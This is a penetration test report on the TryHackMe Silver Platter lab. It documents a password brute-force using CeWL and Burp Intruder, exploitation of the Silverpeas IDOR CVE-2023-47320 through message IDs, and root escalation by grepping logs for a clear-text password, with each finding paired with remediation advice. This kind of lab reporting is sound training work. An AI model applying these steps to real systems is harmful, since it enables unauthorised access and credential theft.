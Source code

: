 # Penetration Test Report  
**Engagement:** TryHackMe - Silver Platter  
**Date:** September 2025  
**Tester:** Colin S    

---

## Summary 
A penetration test was conducted against the TryHackMe Silver Platter environment to assess the security of the deployed Silverpeas application and underlying system. The assessment identified three high-impact vulnerabilities: weak password controls that allowed brute-forcing, an insecure direct object reference (IDOR) in the message view functionality, and local privilege escalation that enabled full root compromise. 

Immediate recommendations are to update the Silverpeas application to the latest version, which addresses the IDOR vulnerability. Strong password policies should be enforced, and multi-factor authentication (MFA) enabled where feasible. User privileges should be reviewed to ensure low-privileged users cannot inadvertently access high-privilege actions on the host system.   
 
## Vulnerabilities  

### 1. Improper Access Control
**CVSS v4.0 Base Score:** 7.8 (High)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:N/VA:N/SC:H/SI:H/SA:N  

**Summary:** The login page to Silverpeas accepted weak and easily guessable passwords. This allows attackers to use automated brute-force techniques to gain unauthorised access.  

**Background:** The organisation’s current password policy, which prevents the reuse of passwords that have previously been breached and are publicly available, provides only a minimal additional layer of security.  

As the application still allows weak and easily guessable passwords, attackers can quickly generate a custom wordlist for brute-forcing attempts. Improper Access Control is detailed in CWE-284 and includes multiple sub-categories of access control failures. Applications that fail to enforce strong authentication controls expose themselves to unauthorised access risks.   

**Technical details & Evidence:** A custom wordlist was created to attempt brute-forcing, see the CeWL output below.  
```bash
cewl http://silverplatter.thm > list.txt
```
![Recon - cewl.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20cewl.png)  

Burp Suite Proxy was used to intercept a login request to ```/silverpeas/AuthenticationServlet```
![Recon - burp request.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20burp%20request.png)

This request was then passed to Burp Suite Intruder to perform the brute-force attack. 
```bash
Login=scr1ptkiddy
Password=§§  - location to inject passwords from wordlist into POST request
```
![Recon - Burp setup.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20Burp%20setup.png)  

The custom generated wordlist was then loaded into Burp Suite before the brute-force attack was commenced. This attack located the required password to log in as the ```scr1ptkiddy``` user.  
![Recon - Burp Password.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20Burp%20Password.png)  

Successful application login.  
![Recon - logged in.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20logged%20in.png)  

**Impact:** Attackers can quickly gain unauthorised access to the web application via any located user accounts. Allowing unauthorised access to an internal collaboration application can lead to theft of data or company secrets. This can lead to further privilege escalation or lateral movement within the organisation’s internal network. The attacker’s actions can also impact the availability of the application and the information it contains.  

**Remediation Advice:** The application should enforce strong password policies, implement account lockout after a limited number of failed attempts to limit the ability for brute-force attacks. Where possible, Multi-Factor Authentication should also be enabled to strengthen the application’s authentication mechanisms.      

---

### 2. Insecure Direct Object Reference in Messages  
**CVSS v4.0 Base Score:** 8.3 (High)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:L/VA:N/SC:H/SI:N/SA:N  

**Summary:** The version of Silverpeas in use has a known Insecure Direct Object Reference (IDOR) vulnerability present in the message viewing endpoint. This enables a logged in user to view all messages from all users on the platform.  

**Background:** Silverpeas versions 6.3.1 and prior are vulnerable to CVE-2023-47320. This allows any logged in user to modify the ```ID``` parameter of the message they are viewing. This allows an attacker to read all messages sent between other users, including those sent only to administrators.  

**Technical details & Evidence:** To verify the vulnerability the ```ID``` parameter was adjusted to view different messages.
The logged in user account had a preexisting message at ```ID=5``` 
```url
silverplatter.thm:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5
```
![Recon - messages.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20messages.png)  

The ```ID``` parameter was then adjusted and allowed reading of another message at ```ID=6```  
```url
silverplatter.thm:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6
```
![Recon - SSH found.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Recon%20-%20SSH%20found.png)  

**Impact:** The present Insecure Direct Object Reference (IDOR) allows attackers to read all messages sent between other users; including those sent only to administrators. This vulnerability also enables attackers to build automated scripts to recursively download all message content present in the application. This can lead to attackers finding highly sensitive information which may lead to further intrusion into the organisation’s infrastructure.  

**Remediation Advice:** The vendor responsible for the maintenance of Silverpeas has implemented proper access controls over the message’s functionality in version 6.3.2 and onwards. It is strongly recommended that the application be updated immediately to a non-vulnerable version.  

---

### 3. Privilege Escalation
**CVSS v4.0 Base Score:** 9.3 (Critical)  
CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H  

**Summary:** System misconfigurations allowed a low-privileged user to access log files, extract passwords and use them to log in as a high-privileged user account. This can allow an attacker to fully compromise the targeted host machine.  

**Background:** A discovered low privilege user was part of the ```(adm)``` group on the target host which enables reading of all system log files. Log files often contain sensitive information entered by users into their terminals or captured from other sources. Upon reviewing the logs, clear-text password entries were discovered from a privileged user. Using the located credentials our low privilege user was able to change their logged in session to that of a high privileged user and gain root access. Such misconfigurations allow attackers, even with limited access, to elevate their privileges. This can result in full control and compromise of the entire system.    

**Technical details & Evidence:** Initial enumeration on the logged in low-privileged user indicated their membership of the ```(adm)``` group.  
```bash
tim@ip-10-201-36-198:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```
![Flag2 - ID.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20-%20ID.png)  
Research on this group indicated that this user could read the contents of the ```/var/log``` directory on the target host.  
```bash
tim@ip-10-201-36-198:~$ cd /var/log
tim@ip-10-201-36-198:/var/log$ ls
```
![Flag2 - var.log.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20-%20var.log.png)  
Grep was then used to parse all the log files and return any line entries containing the word password.  
```
grep -ir "password"
```
This resulted in multiple returned entries with a clear text password being found.  
```bash
uth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=REDACTED -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```
![Flag2 log output.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20log%20output.png)  

This enabled the low-privileged user to login as the user ```tyler``` which resulted in control over a user with full root access.  
``` bash
tim@ip-10-201-36-198:~$ su tyler
tyler@ip-10-201-36-198:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
tyler@ip-10-201-36-198:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-201-36-198:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on ip-10-201-36-198:
    (ALL : ALL) ALL
```
![Flag2 - tyler.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20-%20tyler.png)  
![Flag2 - sudo -l.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20-%20sudo%20-l.png)  

As the user ```tyler``` had full sudo privileges to the host machine root user access could be achieved.  
```bash
sudo su
```  
![Flag2 - sudo.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Silver_Platter/Images/Flag2%20-%20sudo.png)  

**Impact:** Attackers can escalate from a limited user to full system access, bypassing security boundaries. This enables complete compromise of the host; enabling long-term persistence, as attackers can create new users for monitoring or continued data extraction. This allows attackers to fully take over the target system.  

**Remediation Advice:** The principle of least privileged access should be applied to all aspects of the host system. All users should be educated regarding the risks of passing clear-text passwords on the command line. Ensure that all privileged users’ credentials are reset and rotated. Organisations should also monitor for misuse of elevated accounts.    

---
## Appendices  
[https://www.silverpeas.org/](https://www.silverpeas.org/)  
[CWE-284](https://cwe.mitre.org/data/definitions/284.html)  
[CVE-2023-47320](https://nvd.nist.gov/vuln/detail/CVE-2023-47320)  
